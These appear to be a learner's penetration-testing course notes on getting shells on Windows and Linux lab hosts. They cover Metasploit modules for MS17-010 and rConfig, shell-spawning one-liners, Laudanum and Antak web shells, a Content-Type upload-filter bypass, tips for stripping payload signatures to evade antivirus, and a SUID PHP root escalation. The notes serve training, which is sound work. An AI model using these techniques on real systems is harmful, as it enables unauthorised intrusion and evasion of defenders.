- `SMB`: SMB can provide an easy to exploit route to transfer files between hosts. This can be especially useful when the victim hosts are domain joined and utilize shares to host data. We, as attackers, can use these SMB file shares along with C$ and admin$ to host and transfer our payloads and even exfiltrate data over the links.
- `Remote execution via MSF`: Built into many of the exploit modules in Metasploit is a function that will build, stage, and execute the payloads automatically.
- `Other Protocols`: When looking at a host, protocols such as FTP, TFTP, HTTP/S, and more can provide you with a way to upload files to the host. Enumerate and pay attention to the functions that are open and available for use.
## CMD-Prompt and PowerShells for Fun and Profit.

We are fortunate with Windows hosts to have not one but two choices for shells to utilize by default. Now you may be wondering:

`Which one is the right one to use?`

The answer is simple, the one that provides you with the capability you need at the time. Compare `cmd` and `PowerShell` for a minute to get a sense of what they offer and when it would be best to pick one over the other.

CMD shell is the original MS-DOS shell built into Windows. It was made for basic interaction and I.T. operations on a host. Some simple automation could be achieved with batch files, but that was all. Powershell came along with a purpose to expand the capabilities of cmd. PowerShell understands the native MS-DOS commands utilized in CMD and a whole new set of commands based in .NET. New self-sufficient modules can also be implemented into PowerShell with cmdlets.

>[!Important]
>Another important consideration is that CMD does not keep a record of the commands used during the session whereas, PowerShell does. So in the context of being stealthy, executing commands with cmd will leave less of a trace on the host.

So to sum it all up:

Use `CMD` when:

- You are on an older host that may not include PowerShell.
- When you only require simple interactions/access to the host.
- When you plan to use simple batch files, net commands, or MS-DOS native tools.
- When you believe that execution policies may affect your ability to run scripts or other actions on the host.

Use `PowerShell` when:

- You are planning to utilize cmdlets or other custom-built scripts.
- When you wish to interact with .NET objects instead of text output.
- When being stealthy is of lesser concern.
- If you are planning to interact with cloud-based services and hosts.
- If your scripts set and use Aliases.
### Gain a shell on the vulnerable target, then submit the contents of the flag.txt file that can be found in C:\

```shell
nmap 10.129.201.97 -Pn 

sudo nmap 10.129.201.97 -Pn -O -A -p80,135,139,445,5985 
```

I looked that the OS is a 2016 Windows and it had the SMB ports opened. So, I decided to look for exploits for Windows 2017 or upper. And I got a shell using:

```shell
msfconsole

use exploit/windows/smb/ms17_010_psexec
# Configure the options and EXPLOIT 
```


# Infiltrating Unix/Linux

W3Techs maintains an ongoing OS usage statistics [study](https://w3techs.com/technologies/overview/operating_system). This study reports that over `70%` of websites (webservers) run on a Unix-based system. For us, this means we can significantly benefit from continuing to grow our knowledge of Unix/Linux and how we can gain shell sessions on these environments to potentially pivot further within an environment.
While it is common for organizations to use 3rd parties & cloud providers to host their websites & web apps, many organizations still host their websites & web applications on servers in their network environments (on-prem).
## Common Considerations

As you may very well have noticed by now, gaining a shell session with a system can be done in various ways, one common way is through a vulnerability in an application. We will identify a vulnerability and discover an exploit that we can use to gain a shell by delivering a payload. When considering how we will establish a shell session on a Unix/Linux system, we will benefit from considering the following:

- What distribution of Linux is the system running?
- What shell & programming languages exist on the system?
- What function is the system serving for the network environment it is on?
- What application is the system hosting?
- Are there any known vulnerabilities?
## Gaining a Shell Through Attacking a Vulnerable Application

As in most engagements, we will start with an initial enumeration of the system using `Nmap`.
#### Enumerate the Host

```shell
nmap -sC -sV 10.129.201.101
```

eeping our goal of `gaining a shell session` in mind, we must establish some next steps after examining our scan output.

`What information could we gather from the output?`

Considering we can see the system is listening on ports 80 (`HTTP`), 443 (`HTTPS`), 3306 (`MySQL`), and 21 (`FTP`), it may be safe to assume that this is a web server hosting a web application. We can also see some version numbers revealed associated with the web stack.
### Exploit the target and find the hostname of the router in the devicedetails directory at the root of the file system.

```shell
nmap -Pn 10.129.201.101
# Get the opne ports and fingerprinted them
sudo nmap -Pn -oA 01_exercise -O -sV 10.129.201.101 -p21,22,80,111,443,1175,3306,20222
```

After looking for the CVE on Internet we get this one:

```shell
use linux/http/rconfig_vendors_auth_file_upload_rce
# Configure the options and EXPLOIT
```
 And we get a meterpreter shell
 
 
THEN
 
# Spawning Interactive Shells

## /bin/sh -i

This command will execute the shell interpreter specified in the path in interactive mode (`-i`).
#### Interactive
```shell
/bin/sh -i
```
## Perl

If the programming language [Perl](https://www.perl.org/) is present on the system, these commands will execute the shell interpreter specified.
#### Perl To Shell
```shell
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
```
The command directly above should be run from a script.
## Ruby

If the programming language [Ruby](https://www.ruby-lang.org/en/) is present on the system, this command will execute the shell interpreter specified:
#### Ruby To Shell
```shell
ruby: exec "/bin/sh"
```
## Lua

If the programming language [Lua](https://www.lua.org/) is present on the system, we can use the `os.execute` method to execute the shell interpreter specified using the full command below:
#### Lua To Shell
```shell
lua: os.execute('/bin/sh')
```
The command directly above should be run from a script.
## AWK

[AWK](https://man7.org/linux/man-pages/man1/awk.1p.html) is a C-like pattern scanning and processing language present on most UNIX/Linux-based systems, widely used by developers and sysadmins to generate reports. It can also be used to spawn an interactive shell. This is shown in the short awk script below:
#### AWK To Shell
```shell
awk 'BEGIN {system("/bin/sh")}'
```
## Find

[Find](https://man7.org/linux/man-pages/man1/find.1.html) is a command present on most Unix/Linux systems widely used to search for & through files and directories using various criteria. It can also be used to execute applications and invoke a shell interpreter.
#### Using Find For A Shell
```shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```
This use of the find command is searching for any file listed after the `-name` option, then it executes `awk` (`/bin/awk`) and runs the same script we discussed in the awk section to execute a shell interpreter.
## Using Exec To Launch A Shell
```shell
find . -exec /bin/sh \; -quit
```
This use of the find command uses the execute option (`-exec`) to initiate the shell interpreter directly. If `find` can't find the specified file, then no shell will be attained.
## VIM

Yes, we can set the shell interpreter language from within the popular command-line-based text-editor `VIM`. This is a very niche situation we would find ourselves in to need to use this method, but it is good to know just in case.
#### Vim To Shell
```shell
vim -c ':!/bin/sh'
```
#### Vim Escape
```shell
vim 
:set shell=/bin/sh 
:shell
```
## Execution Permissions Considerations

In addition to knowing about all the options listed above, we should be mindful of the permissions we have with the shell session's account. We can always attempt to run this command to list the file properties and permissions our account has over any given file or binary:
#### Permissions

```shell
ls -la <path/to/fileorbinary>
```
We can also attempt to run this command to check what `sudo` permissions the account we landed on has:

```shell
sudo -l
```
# Introduction to Web Shells

It is almost guaranteed that we will come across web servers in our time learning and actively engaging in the practice of pentesting. Much of the world's software services are moving to web-based platforms accessible over the world wide web using a web browser and HTTP/S.
## What is a Web Shell?

A `web shell` is a browser-based shell session we can use to interact with the underlying operating system of a web server. Again, to gain remote code execution via web shell, we must first find a website or web application vulnerability that can give us file upload capabilities. Most web shells are gained by uploading a payload written in a web language on the target server. The payload(s) we upload should give us remote code execution capability within the browser.
# Laudanum, One Webshell to Rule Them All

Laudanum is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, run commands on the victim host right from the browser, and more. The repo includes injectable files for many different web application languages to include `asp, aspx, jsp, php,` and more. This is a staple to have on any pentest. If you are using your own VM, Laudanum is built into Parrot OS and Kali by default. For any other distro, you will likely need to pull a copy down to use. You can get it [here](https://github.com/jbarcia/Web-Shells/tree/master/laudanum).
The Laudanum files can be found in the `/usr/share/laudanum` directory. For most of the files within Laudanum, you can copy them as-is and place them where you need them on the victim to run. For specific files such as the shells, you must edit the file first to insert your `attacking`
#### Move a Copy for Modification
```shell
cp /usr/share/laudanum/aspx/shell.aspx /home/tester/demo.aspx
```
Add your IP address to the `allowedIps` variable on line `59`. Make any other changes you wish. It can be prudent to remove the ASCII art and comments from the file. These items in a payload are often signatured on and can alert the defenders/AV to what you are doing.
## Exercise
### Establish a web shell session with the target using the concepts covered in this section. Submit the full path of the directory you land in. (Format: c:\path\you\land\in)

>[!Important]
>Set the `status.inlanefreight.local` to the IP `10.129.181.199` in `/etc/hosts`

In the web server we upload a zip with an `aspx` web shell. 

```shell
# ANSWER
c:\windows\system32\inetsrv
```
# Antak Webshell
## ASPX Explained

`Active Server Page Extended` (`ASPX`) is a file type/extension written for [Microsoft's ASP.NET Framework](https://docs.microsoft.com/en-us/aspnet/overview). On a web server running the ASP.NET framework, web form pages can be generated for users to input data. On the server side, the information will be converted into HTML. We can take advantage of this by using an ASPX-based web shell to control the underlying Windows operating system. Let's witness this first-hand by utilizing the Antak Webshell.
## Working with Antak

The Antak files can be found in the `/usr/share/nishang/Antak-WebShell` directory.

```shell
ls /usr/share/nishang/Antak-WebShell

antak.aspx Readme.md
```
## Antak Demonstration

Now that we understand what Antak is and how it works let's put it to the test against the same web application from the Laudanum section. If you wish to follow along with this demonstration, you will need to add an entry into your `/etc/hosts` file on your attack VM or within Pwnbox for the host we are attacking.
#### Move a Copy for Modification
```shell
cp /usr/share/nishang/Antak-WebShell/antak.aspx /home/administrator/Upload.aspx
```
Make sure you set credentials for access to the web shell. Modify `line 14`, adding a user (green arrow) and password (orange arrow).

# PHP Web Shells

Hypertext Preprocessor or [PHP](https://www.php.net/) is an open-source general-purpose scripting language typically used as part of a web stack that powers a website. At the time of this writing (October 2021), PHP is the most popular `server-side programming language`. According to a [recent survey](https://w3techs.com/technologies/details/pl-php) conducted by W3Techs, "PHP is used by `78.6%` of all websites whose server-side programming language we know".
## Hands-on With a PHP-Based Web Shell.

Since PHP processes code & commands on the server-side, we can use pre-written payloads to gain a shell through the browser or initiate a reverse shell session with our attack box. In this case, we will take advantage of the vulnerability in rConfig 3.9.6 to manually upload a PHP web shell and interact with the underlying Linux host.

We will be using [WhiteWinterWolf's PHP Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell). We can download this or copy and paste the source code into a `.php` file. Keep in mind that the file type is significant, as we will soon witness. Our goal is to upload the PHP web shell via the Vendor Logo `browse` button.
Attempting to do this initially will fail since rConfig is checking for the file type. It will only allow uploading image file types (.png,.jpg,.gif, etc.). However, we can bypass this utilizing `Burp Suite`.
Start Burp Suite, navigate to the browser's network settings menu and fill out the proxy settings. `127.0.0.1` will go in the IP address field, and `8080` will go in the port field to ensure all requests pass through Burp (recall that Burp acts as the web proxy).
## Bypassing the File Type Restriction

With Burp open and our web browser proxy settings properly configured, we can now upload the PHP web shell. Click the browse button, navigate to wherever our .php file is stored on our attack box, and select open and `Save` (we may need to accept the PortSwigger Certificate). It will seem as if the web page is hanging, but that's just because we need to tell Burp to forward the HTTP requests.
We will change Content-type from `application/x-php` to `image/gif`. This will essentially "trick" the server and allow us to upload the .php file, bypassing the file type restriction. Once we do this, we can select `Forward` twice, and the file will be submitted. We can turn the Burp interceptor off now and go back to the browser to see the results.
## Considerations when Dealing with Web Shells

When utilizing web shells, consider the below potential issues that may arise during your penetration testing process:

- Web applications sometimes automatically delete files after a pre-defined period
- Limited interactivity with the operating system in terms of navigating the file system, downloading and uploading files, chaining commands together may not work (ex. `whoami && hostname`), slowing progress, especially when performing enumeration -Potential instability through a non-interactive web shell
- Greater chance of leaving behind proof that we were successful in our attack

> [!success] EXTRA
> # Escalada de privilegios vía PHP con SUID (sudo chmod)
> **Setup**
> ```shell-session
> sudo chmod 6777 /usr/bin/php
> ls -la $(which php)
> # -rwsrwsrwx. 1 root root ... /usr/bin/php
> ```
>
> **Falla (drop de privilegios por ruid≠euid)**
> ```shell-session
> php -r "system('/bin/sh -p');"
> whoami
> # apache
> ```
>
> **Diagnóstico**
> ```shell-session
> php -r "echo 'ruid=' . posix_getuid() . ' euid=' . posix_geteuid();"
> # ruid=48 euid=0  -> discrepancia causa el drop
> ```
>
> **Explotación**
> ```shell-session
> php -r "posix_setuid(0); posix_setgid(0); system('/bin/sh -p');"
> whoami
> # root
> ```
>
> **Por qué:** SUID da `euid=0` al proceso padre, pero `/bin/sh` al iniciar compara `ruid` vs `euid`; si difieren, dropea privilegios pese al `-p`. `posix_setuid(0)`/`posix_setgid(0)` igualan `ruid` a `0` antes del fork, eliminando la discrepancia.
>
> **Ref:** GTFOBins → php → SUID

# LAB

